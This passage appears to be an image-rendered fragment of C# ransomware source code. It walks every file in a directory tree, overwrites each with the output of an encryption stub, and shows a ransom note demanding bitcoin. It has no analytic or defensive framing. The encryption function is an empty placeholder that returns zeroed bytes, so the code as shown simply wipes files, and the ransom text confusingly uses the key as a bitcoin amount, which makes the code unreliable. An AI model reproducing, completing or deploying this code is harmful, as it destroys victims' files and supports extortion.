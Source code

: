 ```


            // Display the ransom message

            DisplayRansomMessage(encryptionKey);

        }



        static void EncryptDirectory(string directory, string encryptionKey)

        {

            string[] files = Directory.GetFiles(directory, "*", SearchOption.AllDirectories);



            foreach (string file in files)

            {

                // Encrypt the file using the encryption key

                byte[] encryptedData = EncryptData(File.ReadAllBytes(file), encryptionKey);



                // Overwrite the original file with the encrypted data

                File.WriteAllBytes(file, encryptedData);

            }

        }



        static byte[] EncryptData(byte[] data, string encryptionKey)

        {

            byte[] encryptedData = new byte[data.Length];



            // Perform encryption logic using encryptionKey



            return encryptedData;

        }



        static void DisplayRansomMessage(string encryptionKey)

        {

            string ransomMessage = $"Your files have been encrypted. To decrypt them, send {encryptionKey} bitcoins to the following address...";

```